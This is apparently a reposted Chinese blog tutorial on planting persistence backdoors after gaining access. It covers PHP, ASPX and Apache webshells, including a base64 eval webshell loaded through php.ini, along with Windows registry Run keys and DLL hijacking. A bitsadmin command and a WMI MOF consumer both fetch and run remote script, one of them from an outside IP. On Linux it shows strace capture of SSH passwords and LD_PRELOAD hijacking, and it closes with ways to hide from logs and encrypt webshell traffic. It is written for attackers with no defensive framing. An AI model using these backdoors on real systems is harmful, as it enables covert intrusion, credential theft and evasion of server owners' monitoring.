# 渗透中的后门利用

[2020-04-17](/2020/04/17/%E6%B8%97%E9%80%8F%E4%B8%AD%E7%9A%84%E5%90%8E%E9%97%A8%E5%88%A9%E7%94%A8/)

本文转自**中国白客联盟**，如有侵权请联系作者，马上删除

## [](#前言 "前言")前言

本文主要介绍权限维持，介绍如何在有一定权限的情况下，留下后门。当然各类后门太多太多了，这里主要列举一些常用的、方便的。

* * *

## [](#WEB类 "WEB类")WEB类

本类主要介绍基于web类的一些后门，比如大家熟知的webshell。

### [](#php站点 "php站点")php站点

1.  **.user.ini**  
    当我们服务器是以fastcgi运行的php，我们就可以使用该方法进行后门操作。

当我们配置.user.ini时，在该文件中插入auto\_prepend\_file=evil.txt 时，就可以做到访问当前目录下的所有php文件时，就自动包含这个evil.txt：  


2.  **.htaccess**  
    站长经常用.htaccess做伪静态，我们也可以拿来做后门。  
    自定义.htaccess上传，下面是内容

  
    SetHandler application/x-httpd-php  
  
    同目录下，上传一个名称包含aaa的文件，就可以把此文件当成php解析。

3.  **php.ini**  
    修改php.ini，添加如下内容：

    allow\_url\_include=On  
    auto\_prepend\_file=”data:;base64,PD9waHAgQGV2YWwoJF9SRVFVRVNUW2NtZF0pOz8+”  
    重启php后，访问任意php页面都可以自动包含上述webshell，即解码后的

    \<\?php \@eval\(\$\_REQUEST\[cmd\]\);\?>



4.  **pher**  
    php有个环境变量：  
      
    默认该目录不存在，创建即可，然后在该目录下放置一个webshell，然后在web目录写个包含该webshell的代码即可：  
      
    

5.  **asp（x）站点**  
    bin目录下存放的dll主要是作为aspx文件拿来映射的，可以理解为访问aspx文件时，可以调用bin目录下的dll里面的类。而web.config又可以控制映射逻辑。

* aspxceshi目录存放一个webshell，如jumbo.aspx
* 执行如下命令：  
  C:\\Windows\\Microsoft.NET\\Framework\\v2.0.50727\\aspnet\_compiler.exe -v / -p c:\\Users\\Jumbo\\Desktop\\aspxceshi\\webshell\\ c:\\Users\\Jumbo\\Desktop\\aspxceshi\\webshellbin\\
* 就会在webshellbin目录生成dll文件：  
    
  
* 复制compilde文件里面的assembly值和 type值
* 修改网站根目录的web.config，添加如下代码：

  \<system.web>

  ```
  <httpHandlers>
      <add verb="*" path="*" type="assembly值, type值" validate="True"/>
  </httpHandlers>
  </system.web>
  ```

* 把生成的dll放到网站bin目录

* 访问任意地址都是webshell



5.  **jsp\(x\)站点**  
    具体详情可以找陆军长。  
    这里涉及版权问题，不提供思路和代码，直接看效果：  
    

### [](#系统类 "系统类")系统类

主要介绍基于系统类的一些后门，比如大家熟知的启动项之类

### [](#启动项 "启动项")启动项

在windows中，可以添加例如如下注册表：

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
```

即可让机器重启后自动加载你的payload。

### [](#bitsadmin "bitsadmin")bitsadmin

bitsadmin也可以做启动项：  
bitsadmin /create backdoor  
bitsadmin /addfile backdoor \%comspec\% \%temp\%\\cmd.exe  
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe “/u /s /i:<https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct> scrobj.dll”  
bitsadmin /Resume backdoor

### [](#mof "mof")mof

```
#pragma namespace("\\\\.\\root\\subscription")   
instance of __EventFilter as $EventFilter
{
  EventNamespace = "Root\\Cimv2";
    Name  = "filtP1";
    Query = "Select * From __InstanceModificationEvent "
            "Where TargetInstance Isa \"Win32_LocalTime\" "
            "And TargetInstance.Second = 1";
    QueryLanguage = "WQL";
};   
instance of ActiveScriptEventConsumer as $Consumer
{
    Name = "consP1";
    ScriptingEngine = "JScript";
    ScriptText = "GetObject(\"script:http://172.16.127.1:2333/aaaa\")";
};   
instance of __FilterToConsumerBinding
{
    Consumer   = $Consumer;
    Filter = $EventFilter;
};

mofcomp 1.mof
```

### [](#杂 "杂")杂

com劫持、签名伪造、wmi、镜像劫持、netsh后门、Office。太多太多了，就不一一展开讲了。

## [](#Linux "Linux")Linux

### [](#别名 "别名")别名

这里可以利用alias别名记录root密码：

```
https://mp.weixin.qq.com/s?__biz=MzA4NjQxMDcxNA==&mid=2709352583&idx=1&sn=5d1fd02840f0c070036f9c0e70b23958
```

### [](#strace "strace")strace

利用strace抓ssh密码

```
strace -f -p sshdpid-o sshd.out.txt -v -e trace=read,write -s 128
```

### [](#LD-PRELOAD "LD_PRELOAD")LD\_PRELOAD

在linux中，我们可以利用环境变量 LD\_PRELOAD 劫持系统函数，让外部程序加载恶意 \*.so，达到执行系统命令的效果。  
我们可以通过修改动态链接库为我们恶意的so文件时，即可劫持相关函数。  
就以常用的劫持getuid\(\)为例。  
man 2 getuid 查看函数原型：  
  
编写恶意劫持getuid的c文件：

  
编译成so文件：  
gcc \-shared \-fPIC evil.c \-o evil.so  
为了测试，临时加载环境变量，发现成功劫持：  


### [](#杂-1 "杂")杂

openssh后门、rootkit。太多太多了，就不一一展开讲了。

### [](#容器类 "容器类")容器类

1.  iis  
    iis中可以添加ISAPI来达到后门的效果，这里以micropoor\_iis为例，请求任意地址，配置ip端口即可反弹：  
    
2.  apache  
    apache中可以利用apxs生成一个扩展，然后编写相关利用payload。  
    主要是遍历header头，如果带有Backdoor，则执行命令：  
      
    编译、安装、启动，-a命令会自动并在httpd.conf添加loadmodule命令（LoadModule backdoor\_module /usr/lib64/httpd/modules/mod\_backdoor.so）：

    apxs \-i \-a \-c mod\_backdoor.c \&\& service apache2 restart

现在请求任何页面，只要带上Backdoor头即可执行命令：  


### [](#扩展类 "扩展类")扩展类

我们可以在php.ini中加载恶意的扩展，达到访问任意php页面都可以执行payload的目的。  


### [](#软件类 "软件类")软件类

当一个exe运行加载dll时，他的顺序是：

```
a. 应用程序所在目录；
b. 系统目录。GetSystemDirectory返回的目录，通常是系统盘\Windows\System32；
c. 16位系统目录。该项只是为了向前兼容的处理，可以不考虑；
d. Windows目录。GetWindowsDirectory返回的目录，通常是系统盘\Windows；
e. 当前目录。GetCurrentDirectory返回的目录；
f. 环境变量PATH中所有目录。
```

因此我们可以使用如ProcessMonitor工具查看某个exe软件运行时会调用哪些dll，并且这个dll不在  
HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Session Manager\\KnownDLLs  
注册表中，可以尝试进行dll劫持。

### [](#日志类 "日志类")日志类

我们正常来访问一个文件，我们看到的是这么一条200的日志：  
  
那如果我们加个header头呢？在日志里面看到的就是一条404的日志：  
  
但是这样就算日志看起来是404，如果人家访问一下，直接能看到结果，可能还是不太好，那就再加个user-agent的判断：  


### [](#流量层面 "流量层面")流量层面

这里我以蚁剑为例。  
我先介绍下整个加密的流程：

```
1、本地发送加密的数据包
2、webshell解密执行命令
3、返回数据包加密
4、本地解密
```

先根据蚁剑实例写个发送包时候的aes加密，即编码器：

  
我们选择新增的编码器后，随便往某个页面post数据，抓个包，看到我们的数据包已然是加密状态：  
  
用在线的aes解密网站，然后用我们的定义的key发现也能成功解密：  
  
这时候我们就到达第二步，在webshell里面做解密执行：  
  
这时候连接我们的指定webshell，即可成功连接：  
  
现在就需要把数据包加密返回并解密显示，也就是解码器。

